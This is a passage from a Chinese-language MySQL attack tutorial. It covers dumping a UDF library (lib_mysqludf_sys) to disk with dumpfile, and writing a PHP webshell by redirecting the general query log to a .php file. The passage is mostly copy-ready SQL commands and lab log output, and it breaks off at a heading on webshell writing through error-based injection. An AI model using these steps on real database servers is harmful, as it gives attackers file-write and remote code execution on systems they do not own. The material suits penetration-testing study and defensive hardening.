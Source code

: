

**（4）dumpfile**

```mysql
SELECT hex(load_file('/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt'; 

SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f)) into dumpfile '/tmp/udf.txt';
```



**（5）日志文件写shell**

查看全局变量general_log和general_log_file。

```mysql
mysql> show variables like '%general%';
+------------------+--------------------------------------------------------------------------+
| Variable_name    | Value                                                                    |
+------------------+--------------------------------------------------------------------------+
| general_log      | OFF                                                                      |
| general_log_file | D:\phpStudy\phpstudy_pro\Extensions\MySQL5.7.26\data\LAPTOP-AFKN60T3.log |
+------------------+--------------------------------------------------------------------------+
```

+ 开启general log模式

```mysql
set global general_log=on;
```

+ 设置general_log_file为shell.php

```mysql
set global general_log_file='D:\\shell.php';
```

+ select恶意字符串，即可写入木马。

```mysql
select '<?php phpinfo();?>';
```

+ 查看general_log_file文件，可见其中包含我们注入的恶意sql语句。

```
D:\phpStudy\phpstudy_pro\COM\..\Extensions\MySQL5.7.26\\bin\mysqld.exe, Version: 5.7.26 (MySQL Community Server (GPL)). started with:
TCP Port: 3306, Named Pipe: MySQL
Time                 Id Command    Argument
2024-02-27T14:10:46.528834Z	   28 Query	show variables like '%general%'
2024-02-27T14:11:22.110164Z	   28 Query	select '<?php phpinfo();?>'
```





**报错注入写webshell**

报错注入查看mysql写文件权限
